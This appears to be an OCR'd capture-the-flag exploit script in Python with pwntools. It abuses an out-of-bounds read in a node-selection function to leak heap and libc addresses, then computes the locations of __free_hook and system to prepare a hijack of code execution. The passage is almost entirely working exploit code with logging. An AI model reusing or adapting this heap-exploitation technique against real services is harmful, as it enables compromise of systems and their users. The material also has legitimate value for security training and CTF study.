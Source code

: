 ```python

def go():
    global j
    s = get_conn()

    # ==========
    # Leak heap ptr
    # ==========
    log.info("Leaking a heap addr:")

    # Create and delete nodes to setup the heap for our leak
    N = 16
    del_N = 10
    idx = 27
    for _ in range(N):
        create_node(s)

    for k in range(del_N):
        del_node(s, k)

    # `select_node` is vulnerable to an OOBR
    # By selecting a fake 'node' in the heap, we get a heap pointer leak
    # We used `test_leak` to find this fake node which leaked without crashing
    leak = int(select_node(s, idx))
    heap = leak - 1816  # 0x555555758000
    pointer_to_nulls = heap + 35016
    log.success("\t leak @ %s" % (hex(leak)))
    log.success("\t heap @ %s" % (hex(heap)))
    assert heap & 0xfff == 0

    # By selecting one of the nodes we create earlier we avoid further insertions crashing
    # Our fake node will now not be a part of the tree anymore
    select_node(s, del_N + 1)

    # ==========
    # Leak libc addr
    # ==========
    log.info("Leaking a libc addr:")

    # Create nodes just before a call to `realloc` for the `nodes_lst[]`
    # Put the addr where our libc leak will be in the node so we can then index into it
    leak_libc_addr = heap + 720
    for _ in range(305 - 1):
        create_node(s, arg2=leak_libc_addr)

    # Delete most nodes inserted to get space for the next `realloc`
    # We need this to ensure the realloc comes above the alocated nodes so we can index into it
    for k in range(j - 1, 10, -1):
        del_node(s, k)


    # Trigger the `realloc`
    create_node(s, arg2=leak_libc_addr)

    leak_libc_idx = (0xb48 / 8)
    leak_libc = int(select_node(s, leak_libc_idx))

    libc = leak_libc - 0x3ebfb0
    free_hook = libc + 0x3ed8e8
    system = libc + 0x4f440
    log.success("\t leak_libc @ %s" % (hex(leak_libc)))
    log.success("\t      libc @ %s" % (hex(libc)))
    log.success("\t free hook @ %s" % (hex(free_hook)))
```